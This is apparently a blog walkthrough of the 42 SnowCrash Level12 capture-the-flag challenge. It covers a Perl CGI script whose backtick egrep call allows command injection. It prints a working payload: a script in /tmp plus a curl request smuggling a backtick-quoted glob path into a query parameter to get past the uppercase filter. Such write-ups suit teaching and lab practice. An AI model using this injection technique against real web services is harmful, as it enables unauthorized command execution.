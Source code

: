```yaml
---
title: 42 SnowCrash Level12 - Walkthrough 👽 
tags:
  - ctf
  - 42project
  - snowcrash
  - command-injection
  - perl
  - cgi
categories:
  - ctfs
  - 42project
date: 2024-05-19 15:06:08
---
```


## Introduction

In Level 12 of the SnowCrash project by 42 school, you are presented with a Perl script running a CGI Web Server on port 4646. Below is the script:

```perl
#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}
```

### Vulnerability Analysis

The script contains a critical vulnerability in the following line:

```perl
@output = `egrep "^$xx" /tmp/xd 2>&1`;
```

This line executes a system command using backticks. The variable $xx is taken from user input, which makes the script susceptible to command injection attacks.

### Input Sanitization

Before the command is executed, all lowercase letters in $xx are converted to uppercase:

```perl
$xx =~ tr/a-z/A-Z/;
```

Additionally, if a space is present in the input, everything after the space will be discarded:

```perl
$xx =~ s/\s.*//;
```

### Exploitation

Given the vulnerability, an attacker can inject arbitrary commands by manipulating the input. Here is a step-by-step explanation of how to exploit this vulnerability:

1. Create a Malicious Script: Write a script that will be executed on the server.

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT
chmod +x /tmp/EXPLOIT
```

2. Trigger the Vulnerability: Use curl to send a crafted request to the vulnerable server.

```sh
curl 'localhost:4646?x=`/*/EXPLOIT`'
```

3. Retrieve the Flag: The command in the malicious script will be executed, writing the flag to /tmp/lvl12flag. Read the flag using:

```sh
cat /tmp/lvl12flag
```

### Complete Exploit Command

The entire exploitation process can be executed with a single command:

```sh
echo "getflag > /tmp/lvl12flag" > /tmp/EXPLOIT; chmod +x /tmp/EXPLOIT && curl 'localhost:4646?x=`/*/EXPLOIT`'; cat /tmp/lvl12flag
```

By running this command, you can successfully exploit the vulnerability and retrieve the flag.

## Conclusion

This level demonstrates the importance of proper input sanitization and the risks associated with executing user input as system commands. Always ensure to validate and sanitize inputs to prevent command injection vulnerabilities.
